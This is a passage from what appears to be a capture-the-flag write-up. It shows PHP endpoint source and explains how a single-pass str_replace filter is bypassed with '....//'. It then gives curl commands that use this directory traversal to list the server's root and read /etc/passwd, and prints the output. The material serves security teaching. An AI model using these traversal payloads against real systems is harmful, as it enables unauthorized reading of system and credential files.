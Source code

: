            echo json_encode($condition);
    }
    

`fileDelete.php`:

    
    
    <?php
    
    if($_SERVER['REQUEST_METHOD'] === "POST"){
            if(isset($_POST['listnum'])){
                    header('Content-Type: application/json');
                    if(is_numeric($_POST['listnum'])){
                            $myFile = "/var/www/html/.list/list" . $_POST['listnum'];
                            unlink($myFile);
                            header('Content-Type: application/json');
                            echo '[true]';
                    }else{
                            header('Content-Type: application/json');
                            echo '[false]';
                    }
            }else{
                    header('Content-Type: application/json');
                    echo '[false]';
            }
    }
    

#### Bypassing Filters

I can see in both `dirRead` and `fileRead` the user input is filtered to
remove directory traversal attacks. There’s a third filter there in `fileRead`
that prevents me from reading user.txt:

file | filter  
---|---  
dirRead | `$_POST['path'] = str_replace( array("../", "..\""), "", $_POST['path']);`  
fileRead | `$_POST['file'] = str_replace( array("../", "..\""), "", $_POST['file']);`  
fileRead | `strpos($_POST['file'], "user.txt") === false`  
  
Fortunately for me, that style filter can be bypassed by including a string
that, after the `str_replace`, will result in what I want. `str_replace` is
not recursive. It only makes one pass over the string. So, `str_replace(
array("../", "..\""), "", "....//") == "../"`.

To test, I’ll get a directory listing of `/` and grab `/etc/passwd`:

    
    
    root@kali# curl -s -X POST -d "path=....//....//....//" http://10.10.10.87/dirRead.php | jq -rc .
    [".","..",".dockerenv","bin","dev","etc","home","lib","media","mnt","proc","root","run","sbin","srv","sys","tmp","usr","var"]
    
    root@kali# curl -s -X POST -d "file=....//....//....//etc/passwd" http://10.10.10.87/fileRead.php | jq -r .file
    root:x:0:0:root:/root:/bin/ash
    bin:x:1:1:bin:/bin:/sbin/nologin
    daemon:x:2:2:daemon:/sbin:/sbin/nologin
    adm:x:3:4:adm:/var/adm:/sbin/nologin
    lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
    sync:x:5:0:sync:/sbin:/bin/sync
    shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
    halt:x:7:0:halt:/sbin:/sbin/halt
    mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
    news:x:9:13:news:/usr/lib/news:/sbin/nologin
    uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
    operator:x:11:0:operator:/root:/bin/sh
    man:x:13:15:man:/usr/man:/sbin/nologin
    postmaster:x:14:12:postmaster:/var/spool/mail:/sbin/nologin